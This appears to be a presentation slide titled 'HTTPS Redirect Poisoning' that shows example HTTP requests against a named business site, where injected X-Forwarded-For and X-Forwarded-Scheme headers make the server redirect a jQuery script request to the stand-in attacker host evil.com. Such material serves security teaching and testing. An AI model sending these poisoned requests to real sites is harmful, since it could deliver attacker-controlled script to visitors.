

HTTPS Redirect Poisoning
GET /js/jquery.js?v=1 HTTP/1.1   HTTP/1.1 302 Found
Host: business.pintrest.com      Location: /js/jquery.js

GET /js/jquery.js?v=1
Host: business.pintrest.com
X-Forwarded-For: evil.com
X-Forwarded-Scheme: HTTP

GET /js/jquery.js?v=1 HTTP/1.1 HTTP/1.1 302 Found
Host: business.pintrest.com    Location: https://evil.com/js/jquery.js